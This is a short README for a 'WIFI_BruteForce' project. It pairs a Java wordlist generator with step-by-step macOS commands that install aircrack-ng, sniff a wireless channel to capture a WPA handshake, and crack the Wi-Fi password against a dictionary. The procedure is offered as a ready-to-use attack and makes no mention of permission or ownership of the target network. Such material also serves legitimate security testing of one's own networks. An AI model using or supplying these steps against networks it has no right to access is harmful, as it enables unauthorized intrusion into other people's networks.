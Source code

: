 # WIFI_BruteForce

Using java to create passcode dictionary.
And use "aircrack" to brute force WIFI passcode.

My version:
OS Requird: MAC 
Install "MacPorts" on your labtops.
Open Terminal enter following commands:

Install aircrack:
- sudo port install aircrack-ng

Create aircrack link:
- sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport

Search Local WIFI:
- airport -s

Catch WIFI listener package (XX stand for channel number):
- sudo airport en0 sniff XX 

Exit WIFI listener:
- "CONTROL + C"

After it, go to finder "GO TO FOLDER"
- /tmp

There will be *.cap file was create. 

Move the *.cap file and your WIFI passcode *.txt file to a same folder.

Enter following command to check if Encryption (1 handshake) is mean catch passcode successed,
if Encryption (0 handshake) is mean catch passcode unsuccessed.

- aircrack-ng -w *.txt *.cap

If Encryption contain (1 handshake), enter the number of the line, and then start brute force WIFI passcode.
